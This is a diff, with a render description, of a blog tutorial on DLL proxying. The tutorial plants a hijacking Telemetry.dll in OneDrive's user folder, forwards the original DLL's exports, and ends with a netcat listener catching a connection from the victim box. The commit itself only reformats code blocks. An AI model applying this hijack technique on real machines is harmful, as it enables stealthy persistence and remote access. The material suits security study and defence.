

Before and after one commit to searabbitx/searabbitx.github.io, a Jekyll site: the page built from _posts/2022-10-08-dll-proxying.md, in a window 1280 px wide and 1400 px high, scrolled down 3770 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2022-10-08-dll-proxying.md
+++ b/_posts/2022-10-08-dll-proxying.md
@@ -38,8 +38,10 @@ After applying it, we'll see that `C:\Users\IEUser\AppData\Local\Microsoft\OneDr
 
 Using sysinternals [sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck) utility we can see that it is a 64-bit dll.
 
-```
-C:\Tools>sigcheck64.exe C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\22.191.0911.0001\Telemetry.dll
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>C:\Tools><span class="ow">sigcheck64.exe C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\22.191.0911.0001\Telemetry.dll</span>
 
 Sigcheck v2.90 - File version and signature viewer
 Copyright (C) 2004-2022 Mark Russinovich
@@ -54,8 +56,10 @@ c:\users\ieuser\appdata\local\microsoft\onedrive\22.191.0911.0001\Telemetry.dll:
         Product:        Microsoft OneDrive
         Prod version:   22.191.0911.0001
         File version:   22.191.0911.0001
-        MachineType:    64-bit
-```
+        MachineType:    <span class="mi">64-bit</span>
+
+</code></pre></div></div>
+
 # What happens when we use any dll as `Telemetry.dll`
 
 Just for testing purposes let's see what happens if we use any dll to hijack `Telemetry.dll`. We will save the following C code as `dll.c`:
@@ -87,8 +91,10 @@ BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
 
 This dll will create a thread and show a message box upon being loaded. We will run `x64 Native Tools Command Prompt for VS 2022` and compile our code into `C:\...\OneDrive\Telemetry.dll`.
 
-```
-c:\Users\IEUser\dllp>cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>c:\Users\IEUser\dllp><span class="ow">cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>
 Microsoft (R) C/C++ Optimizing Compiler Version 19.33.31630 for x64
 Copyright (C) Microsoft Corporation.  All rights reserved.
 
@@ -100,31 +106,37 @@ Copyright (C) Microsoft Corporation.  All rights reserved.
 /dll
 /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll
 dll.obj
-```
+</code></pre></div></div>
 
 After that, when we try to restart OneDrive it will crash until we remove our dll.
 
-```
-c:\Users\IEUser\dllp>taskkill /IM "OneDrive.exe" /F
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>c:\Users\IEUser\dllp><span class="ow">taskkill /IM "OneDrive.exe" /F</span>
 SUCCESS: The process "OneDrive.exe" with PID 4168 has been terminated.
 
-c:\Users\IEUser\dllp>C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe
+c:\Users\IEUser\dllp><span class="ow">C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe</span>
 
-c:\Users\IEUser\dllp>tasklist | findstr OneDrive
+c:\Users\IEUser\dllp><span class="ow">tasklist | findstr OneDrive</span>
 
-c:\Users\IEUser\dllp>del C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll
+c:\Users\IEUser\dllp><span class="ow">del C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>
 
-c:\Users\IEUser\dllp>C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe
+c:\Users\IEUser\dllp><span class="ow">C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe</span>
 
-c:\Users\IEUser\dllp>tasklist | findstr OneDrive
+c:\Users\IEUser\dllp><span class="ow">tasklist | findstr OneDrive</span>
 OneDrive.exe                  4864 RDP-Tcp#1                  2    126,888 K
-```
+</code></pre></div></div>
+
+
 
 # Proxying calls into the original `Telemetry.dll`
 Let's transfer `Telemetry.dll` to a linux box and take a look at it. What we have to do now is to get a list of all exports of the original `Telemetry.dll` so our dll handles all of them. We can get this list using [pefile](https://github.com/erocarrera/pefile).
 
-```bash
-$ python -m pefile exports Telemetry.dll
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>$ <span class="ow">python -m pefile exports Telemetry.dll</span>
 0x180010790 b'??0AddMountedFolderScenario@QoS@@QEAA@XZ' 1
 0x180010910 b'??0AutoMountScenario@QoS@@QEAA@XZ' 2
 0x18000f6f0 b'??0CheckQuotaInfoScenario@@QEAA@XZ' 3
@@ -137,7 +149,7 @@ $ python -m pefile exports Telemetry.dll
 0x18000fcc0 b'??0KFMUserInitiatedScanScenario@@QEAA@XZ' 10
 0x1800089f0 b'??0QosSyncWrapperConfig@QoS@@QEAA@I_N00PEB_W11@Z' 11
 ... and a lot more ...
-```
+</code></pre></div></div>
 
 And for each of those symbols we would like to _proxy_ them to a copy of the original `Telemetry.dll` named, say, `TelemetryOrig.dll`. We can do this using the [/EXPORT MSVC linker option](https://learn.microsoft.com/en-us/cpp/build/reference/export-exports-a-function?view=msvc-170). For example to proxy `FooFunction` we would use something like:
 
@@ -197,10 +209,11 @@ BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
 
 Let's try it:
 
-```bash
-$ chmod +x ./make_pragmas.sh
-$ ./make_pragmas.sh > dll.c
-```
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>$ <span class="ow">chmod +x ./make_pragmas.sh</span>
+$ <span class="ow">./make_pragmas.sh > dll.c</span></code></pre></div></div>
 
 It should generate a file that looks something like:
 
@@ -241,23 +254,28 @@ BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
 
 Now, we will try to compile the generated code on a windows box and see if we will manage to run our simple popup 'payload' without crashing OneDrive. First, let's make sure that OneDrive is not running.
 
-```
-c:\>taskkill /IM "OneDrive.exe" /F
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>c:\><span class="ow">taskkill /IM "OneDrive.exe" /F</span>
 SUCCESS: The process "OneDrive.exe" with PID 4864 has been terminated.
-```
+</code></pre></div></div>
 
 Then, let's store the original `Telemetry.dll` as `TelemetryOrig.dll` in OneDrive's directory.
 
-```
-c:\>copy C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\22.191.0911.0001\Telemetry.dll C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\TelemetryOrig.dll
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>c:\><span class="ow">copy C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\22.191.0911.0001\Telemetry.dll C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\TelemetryOrig.dll</span>
         1 file(s) copied.
-
-```
+</code></pre></div></div>
 
 And finally we'll compile our new code and start OneDrive.
 
-```
-c:\Users\IEUser\dllp>cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>c:\Users\IEUser\dllp><span class="ow">cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>
 Microsoft (R) C/C++ Optimizing Compiler Version 19.33.31630 for x64
 Copyright (C) Microsoft Corporation.  All rights reserved.
 
@@ -271,8 +289,8 @@ Copyright (C) Microsoft Corporation.  All rights reserved.
 dll.obj
    Creating library C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.lib and object C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.exp
 
-c:\Users\IEUser\dllp>C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe
-```
+c:\Users\IEUser\dllp><span class="ow">C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe</span>
+</code></pre></div></div>
 
 This time our MessageBox popup fired and OneDrive did not crash!
 
@@ -297,17 +315,20 @@ DWORD WINAPI ThreadFunc(void* data) {
 
 Next, I'll recompile the dll and restart the box.
 
-```
-c:\Users\IEUser\dllp>taskkill /IM "OneDrive.exe" /F
+<div class="language-plaintext highlighter-rouge">
+<div class="highlight">
+<pre class="highlight">
+<code>c:\Users\IEUser\dllp><span class="ow">taskkill /IM "OneDrive.exe" /F</span>
 SUCCESS: The process "OneDrive.exe" with PID 3232 has been terminated.
 
-c:\Users\IEUser\dllp>cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll
+c:\Users\IEUser\dllp><span class="ow">cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>
 Microsoft (R) C/C++ Optimizing Compiler Version 19.33.31630 for x64
 Copyright (C) Microsoft Corporation.  All rights reserved.
 ...
 
-c:\Users\IEUser\dllp>shutdown /r /t 0
-```
+c:\Users\IEUser\dllp><span class="ow">shutdown /r /t 0</span>
+</code></pre></div></div>
+
 
 On my linux box I start a netcat lister on port 443 and log in to the windows box. After a while I get a connection.
 
````
Also changed, not shown: _posts/2022-12-06-locate-file-paths.md (added, +51 -0 lines).
